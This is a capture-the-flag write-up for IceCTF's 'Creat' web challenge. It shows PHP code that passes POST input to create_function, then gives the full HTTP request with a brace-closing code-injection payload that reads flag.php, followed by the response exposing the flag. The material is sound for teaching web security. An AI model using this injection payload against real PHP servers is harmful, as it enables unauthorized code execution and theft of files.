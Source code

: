 
## Creat

> Our friend decided to learn programming as his quarantine project! Sadly, he chose to learn PHP, and doesn't believe in the security vulnerabilities. Help us prove him wrong!

We are given the following code:

```
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

include "flag.php";

if (isset ($_POST['c']) && !empty ($_POST['c'])) {
    $fun = create_function('$flag', $_POST['c']);
        //$fun();
} else {
    highlight_file(__FILE__);
}
?>
```

the ``create_function`` part is vulnerable. Whatever we put in it is basically run through ``eval``. We can inject something in there to end the current function's body, grab the flag, and then open another function body to prevent syntax errors. Here is what the final request looks like:

```
POST / HTTP/1.1
Host: www.web-creat.vuln.icec.tf
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Length: 44
Content-Type: application/x-www-form-urlencoded
c=}; echo file_get_contents('./flag.php'); {
```

Here is the response:

```
HTTP/1.1 200 OK
Date: Tue, 29 Dec 2020 20:50:39 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
Via: 1.1 google
Connection: close
Content-Length: 133
<?php
$flag = "IceCTF{Code_injection_in_php_because_why_n0t}";
// Remove the deprecation error
error_reporting(E_ALL ^ E_DEPRECATED);
```

> IceCTF{Code_injection_in_php_because_why_n0t}

